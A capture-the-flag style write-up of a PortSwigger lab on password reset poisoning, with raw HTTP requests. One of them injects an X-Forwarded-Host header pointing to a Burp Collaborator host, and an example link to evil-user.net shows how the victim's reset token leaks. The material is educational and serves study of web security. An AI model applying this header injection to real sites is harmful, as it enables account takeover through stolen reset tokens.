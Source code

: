## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/311fc73a-63a6-4cd4-886c-b83d0432ce58)

## Overview :

**Password Reset Poisoning -**
 Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts. 
 
 #### How this attack works ?
 
1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control. For this example, we'll use evil-user.net.

2. The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server:
    
    ```http
    https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j
    ```
    
3. If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server. 
4. The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account. 
 
References :

  - https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html
  - https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

## Solution :

The lab is a blog website,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cc42a1e6-2077-48df-b2d4-98dfbb24073d)
 

Clicking on *My Account* takes us to this login page,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/53b86e71-64c5-4476-9882-cd8341df296b)

When we click on forgot password, browser sends a *POST* request to `/forgot-password` along with `username=wiener` parameter.

```http
POST /forgot-password HTTP/2
Host: 0ad700ef037b819c8101e38400e800fb.web-security-academy.net
Cookie: session=eiaiChHGmHu6RsgwQZFBmVObpnNqH12j
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0ad700ef037b819c8101e38400e800fb.web-security-academy.net
Referer: https://0ad700ef037b819c8101e38400e800fb.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener
```

After forwarding the above request, we can see the reset password link has been sent to wiener's email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/06ff086c-37fa-499e-8d9f-23590381cc4a)

> Here the server address in the link is `0a6a00d804e104958379c52d007300c9.web-security-academy.net` & `temp-forgot-password-token=T9Ou8Nr4HEdnClSG7cAwBWkaukma1orc`

When we click the link, enter  our new password , a *GET* request is sent to /forgot-password along with a token like this

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/624308f1-4933-4217-a18c-00c8f8d4706a)


```http
POST /forgot-password?temp-forgot-password-token=T9Ou8Nr4HEdnClSG7cAwBWkaukma1orc HTTP/2
Host: 0a6a00d804e104958379c52d007300c9.web-security-academy.net
Cookie: session=Kt96OLQV957nJQYx78S8js3xPZQGU1Ow
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: https://0a6a00d804e104958379c52d007300c9.web-security-academy.net
Referer: https://0a6a00d804e104958379c52d007300c9.web-security-academy.net/forgot-password?temp-forgot-password-token=T9Ou8Nr4HEdnClSG7cAwBWkaukma1orc
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=T9Ou8Nr4HEdnClSG7cAwBWkaukma1orc&new-password-1=newpass&new-password-2=newpass
```

And thus we've finally changed the password of wiener using the password reset link.

#### Perform password reset poisoning on carlos -


We modify the *POST* Request sent to /`forget-password` by adding an additional header `X-Forwarded-Host=<our-server.net>` 

```http
POST /forgot-password HTTP/2
Host: 0a6a00d804e104958379c52d007300c9.web-security-academy.net
Cookie: session=Kt96OLQV957nJQYx78S8js3xPZQGU1Ow
X-Forwarded-Host: bcrgwu2v1zwfwvzuucncws1qnht8hx.oastify.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a6a00d804e104958379c52d007300c9.web-security-academy.net
Referer: https://0a6a00d804e104958379c52d007300c9.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=carlos
```
Now we can see that we got the reset link to our mail(wiener) but this time the server name is our burp collaborator server.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/998a51a6-9adb-436c-bb32-127dfc5b627f)

We can change the username parameter to carlos ie(`username=carlos`) to send a password reset email to carlos.

Since it is given in the lab description that **user carlos will carelessly click on any links in emails that he receives**. It means he will enter his username and password for resetting his old password by clicking on our malicious link.




















